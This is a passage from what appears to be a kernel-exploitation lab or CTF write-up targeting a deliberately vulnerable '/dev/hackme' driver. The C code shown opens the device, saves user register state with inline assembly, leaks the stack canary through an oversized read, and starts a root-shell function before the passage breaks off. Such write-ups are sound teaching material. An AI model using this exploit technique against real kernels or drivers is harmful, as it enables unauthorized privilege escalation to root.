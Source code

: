 ```c
        ".att_syntax;"
    );
}
```



#### Final_Exp

```c
#include <stdio.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <fcntl.h>
#include <sched.h>
#include <sys/mman.h>
#include <signal.h>
#include <sys/syscall.h>
#include <sys/ioctl.h>
#include <linux/userfaultfd.h>
#include <sys/wait.h>
#include <poll.h>
#include <unistd.h>
#include <stdlib.h>

int global_fd;
void open_dev(){
    global_fd = open("/dev/hackme", O_RDWR);
	if (global_fd < 0){
		puts("[!] Failed to open device");
		exit(-1);
	} else {
        puts("[*] Opened device");
    }
}

unsigned long user_cs, user_ss, user_rflags, user_sp;
void save_state(){
    __asm__(
        ".intel_syntax noprefix;"
        "mov user_cs, cs;"
        "mov user_ss, ss;"
        "mov user_sp, rsp;"
        "pushf;"
        "pop user_rflags;"
        ".att_syntax;"
    );
    puts("[*] Saved state");
}

unsigned long cookie;
void leak(void){
    unsigned n = 20;
    unsigned long leak[n];
    ssize_t r = read(global_fd, leak, sizeof(leak));
    cookie = leak[16];

    printf("[*] Leaked %zd bytes\n", r);
    printf("[*] Cookie: %lx\n", cookie);
}

void get_shell(void){
    puts("[*] Returned to userland");
    if (getuid() == 0){
        printf("[*] UID: %d, got root!\n", getuid());
```